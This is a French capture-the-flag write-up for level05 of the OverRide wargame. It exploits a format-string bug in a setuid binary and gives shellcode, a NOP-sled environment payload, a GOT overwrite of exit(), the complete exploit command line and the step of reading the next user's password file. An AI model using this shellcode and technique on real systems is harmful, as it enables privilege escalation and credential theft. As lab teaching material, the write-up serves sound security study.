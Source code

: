 ## Comportement
- J'ai des droits `level04` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level06 users   5176 Sep 10  2016 level05*`
En exécutant le binaire (`./level05`), on observe:
- qu'il attend un input de notre part.
- il print ce qu'on lui envoie, meme s'il n'y a rien.
- qu'il ne segfault pas meme si l'input est tres long.
    ```shell
    level05@OverRide:~$ ./level05 
    kk
    kk
    level05@OverRide:~$ ./level05 


    level05@OverRide:~$ ./level05 
    jbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjjbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbb
    jbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbbjjjjjjjjjjjlevel05@OverRide:~$ 
    ```


## Analyse
En analysant le binaire (`gdb ./level05`) on observe:
- Presence d'un printf vulnerable. On peut donc tenter un Format String Attack.
- Pas d'ouverture de shell dans le code, on va donc importer un shellcode. 
- On peut reecrire l'adresse de `exit()` avec l'adresse de notre shellcode.


## Résolution
- D'abord on trouve l'offset de notre string. Il est de 10. En effet c'est a partir de la 10 eme adresse que l'on commence a ecrire :
    ```shell
    level05@OverRide:~$ python -c 'print "BBBB"+"-%x"*12' | ./level05 
    bbbb-64-f7fcfac0-f7ec3af9-ffffd5ef-ffffd5ee-0-ffffffff-ffffd674-f7fdb000-62626262-2d78252d-252d7825
    ```
- Pour l'exploiter, nous pouvons stocker un shellcode dans une variable d'environnement et l'injecter à la 10ème position. Voici le shellcode qu'on utilisera : 
    ```shell
    \xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh
    ```
- On cree une variable d'environnement pour stocker notre shellcode, precede d'une bande de NOP isntructions : 
    ```shell
    $ env -i PAYLOAD=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"')
    ```
- On determine une adresse dans cette bande de NOP instructions (`0xffffdc59` par exemple) : 
    ```shell
    (gdb) x/200s environ
    0xffffdb75:	 "/home/users/level05/level05"
    0xffffdb91:	 "PAYLOAD=\220\220\220"...
    0xffffdc59:	 "\220\220\220\220\220"...
    0xffffdd21:	 "\220\220\220\220\220"...
    0xffffdde9:	 "\220\220\220\220\220"...
    0xffffdeb1:	 "\220\220\220\220\220"...
    0xffffdf79:	 "\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f\315\200\061\333\211\330@\315\200\350\334\377\377\377/bin/sh"
    0xffffdfaf:	 "COLUMNS=104"
    ```
- On cherche l'adresse de `exit()` pour l'overwrite avec celle de notre shellcode (`0x80497e0`) : 
    ```shell
    (gdb) info function exit
    All functions matching regular expression "exit":

    Non-debugging symbols:
    0x08048370  exit
    0x08048370  exit@plt

    (gdb) x/i 0x08048370
    0x8048370 <exit@plt>:	jmp    *0x80497e0
    ```
- Nous devons écrire dans l'adresse d'`exit()` en 2 fois, car `0xffffdc59` en décimal correspond a 4294958169, trop long a cause du padding de printf. On le divise donc en deux : `dc59 (56409 - 8 pour nos 2 adresses écrites précédemment) + ffff (65535 - tous les caractères précédents (56409))`
- On craft notre payload : `python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56401d"+"%10$hn"+"%9126d"+"%11$hn"'`
- On appele le binaire avec sans oublier la variable d'environnement : 
    ```shell
    $ (python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56401d"+"%10$hn"+"%9126d"+"%11$hn"';cat) | env -i PAYLOAD=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./level05
    ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level06`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/users/level06/.pass`)
  - quitter le shell (`exit`)
  - et passer au level06 (`su level06`) en renseignant ce password.
  